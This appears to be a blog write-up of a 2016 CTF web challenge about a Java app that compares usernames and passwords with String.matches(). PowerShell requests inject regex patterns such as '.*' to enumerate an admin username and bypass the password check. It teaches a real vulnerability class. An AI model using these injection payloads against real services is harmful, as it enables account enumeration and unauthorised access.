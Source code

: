 ```yaml
---
title: '[CTF(x) 2016 : WEB] Harambehub – 100 pts Writeup'
author: Megabeets
type: posts
date: 2016-08-28T21:37:46+00:00

categories:
  - CTF(x)
  - Writeups
tags:
  - CTF
  - CTF(x)
  - Powershell
  - Web
  - Writeups

---
```

**Challenge description:**  
_This website was created in honor of harambe: http://problems.ctfx.io:7003_  
 _Problem author: omegablitz_  
[HarambeHub.java][1]  
[ _User.java_][2]

This challenge was the second in the Web category and it actually was the first time I’ve ever seen something like that. We are given with a url, which returns an empty page and two source-files written in Java for Spark Framework. Make sure you read the given source-files before you continue.

The main file, HarambeHub.java, contains two methods which are actually get() and post() routes to two different pages, as you can see below:

```java
public class HarambeHub {
    public static void main(String[] args) {
        post("/users", (req, res) -> {
            String username = req.queryParams("username");
            String password = req.queryParams("password");
            String realName = req.queryParams("real_name");
           ...
        });
		
        get("/name", (req, res) -> {
            String username = req.queryParams("username");
            String password = req.queryParams("password");
      	...
        });
    }
}

```


Reading both source files we understand the application is capable of creating a new account and to retrieve the real_name of a user if you know its username and password.

Let’s try to register a new user, using a simple Powershell code:

```powershell
(Invoke-WebRequest "http://problems.ctfx.io:7003/users" -Method POST -Body @{username="Megabeets"; password="VeggiesAreGood"; real_name="Itay Cohen"}).Content

```


We results with “_OK: Your username is &#8220;[Member] Megabeets&#8221;_”. As you can see, the text “[Member] “ has been added to the username we supplied. By reading the function that handles the registration process we understand that we can register a user with that name again and again. Executing the exact same code results with the exact same answer: “_OK: Your username is &#8220;[Member] Megabeets&#8221;_”. Let’s try this again but this time with “[Member] Megabeets” in the username. Now we end up with an error saying: “_FAILED: User with that name already exists!_”.

Let’s take a look at the code that checks if a given username already exists:

```java
...
for (User user : User.users) {
                if(user.getUsername().matches(username)) {
                    return "FAILED: User with that name already exists!";
                }
            }
            new User("[Member]	 " + username, password, realName);
            return "OK: Your username is \"" + "[Member] " + username + "\"";
...

```


As you can see, the code compares the two strings in attempt to check whether the username exists, but it uses String.matches() instead of String.equals(). The method String.matches() checks the match of a string to a regular rxpression pattern. Keep this in mind, it’s the key to solving the challenge. If false is returned, it creates a new User with the username “[Member] <username>”, just as we’ve seen before.

But what happens if we try to register a user with a regular expression as its desired username? Does it say that the username already exists? Let’s play with it a little bit and see what we get when sending “.\*” as the password (“.\*” is the regex pattern to **anything)**.

```powershell
(Invoke-WebRequest "http://problems.ctfx.io:7003/users" -Method POST -Body @{username=".*"; password="VeggiesAreGood"; real_name="Itay Cohen"}).Content

```


As expected, we received the error: &#8220;FAILED: User with that name already exists!&#8221;.

Now let’s take a look at the function that retrieves the real_name of a given username.

```java
public boolean verify(String username, String password) {
        return this.username.equals(username) && this.master.matches(password);
    }

```


This function also uses String.matches() to compare the given password with the user’s password. Let’s see it in action:

```powershell
Invoke-WebRequest "http://problems.ctfx.io:7003/name" -Method Get -Body @{username="[Member] Megabeets"; password="VeggiesAreGood"}

```


We results with: “_Itay Cohen_”.

Good. Now we’ll send the same request but this time with wildcard as the password.

```powershell
Invoke-WebRequest "http://problems.ctfx.io:7003/name" -Method Get -Body @{username="[Member] Megabeets"; password=".*"}

```


We again results with: “_Itay Cohen_”.

Let’s sum up what we have understood until now:

  1. We can get the real_name of any user if we know its username.
  2. We can understand if username already exists by using regular expressions.

That’s mean that we need to run through all the possible usernames till we find the user which his password is the flag. My gut feeling tells me the username will probably start with “[Admin]”.

I’ll do a simple test to check whether indeed a user begins with “[Admin]” exists. If so, only the developer can add a user with such a username because every registered username is prepend with “[Member]”.

```powershell
(Invoke-WebRequest "http://problems.ctfx.io:7003/users" -Method POST -Body @{username="^\[Admin\].*"; password="pass"; real_name="Itay Cohen"}).Content

```


“_FAILED: User with that name already exists!_”.

I wrote a simple script to automate the process. May the bruteforce be with us.



Results:

```
Match found: \[Admin\] A
Match found: \[Admin\] Ar
Match found: \[Admin\] Arx
Match found: \[Admin\] Arxe
Match found: \[Admin\] Arxen
Match found: \[Admin\] Arxeni
Match found: \[Admin\] Arxenix
Match found: \[Admin\] Arxenixi
Match found: \[Admin\] Arxenixis
Match found: \[Admin\] Arxenixisa
Match found: \[Admin\] Arxenixisal
Match found: \[Admin\] Arxenixisalo
Match found: \[Admin\] Arxenixisalos
Match found: \[Admin\] Arxenixisalose
Match found: \[Admin\] Arxenixisaloser

```


It seems like we’ve found the username. Let’s get its real_name:

```powershell
(Invoke-WebRequest "http://problems.ctfx.io:7003/name?username=\[Admin\] Arxenixisaloser; password=.*").content

```


And we got the flag:

_ctf(h4r4mb3\_d1dn1t\_d13\_4\_th1s\_f33ls\_b4d)_



<img decoding="async" loading="lazy" class="alignleft" src="http://www.gannett-cdn.com/-mm-/748c68a68596b4b3be54484af8d31875e45f9fe5/c=179-0-2659-3307&r=537&c=0-0-534-712/local/-/media/2016/05/29/Cincinnati/Cincinnati/636001135964333349-Harambe2.jpg" width="172" height="209" /> 

**Harambe the Gorilla** was a 17-year-old Western lowland silverback gorilla who was shot and killed at the Cincinnati Zoo after a child fell into his enclosure in late May 2016. The incident was wildly criticized online by many who blamed the child’s parents for the gorilla’s untimely death.

**RIP Harambe.**



 [1]: https://gist.github.com/ITAYC0HEN/5df90c37fcdd78196778475e67011f7a
 [2]: https://gist.github.com/ITAYC0HEN/ad92229f6ae7f5fdf3c47ec752959b7e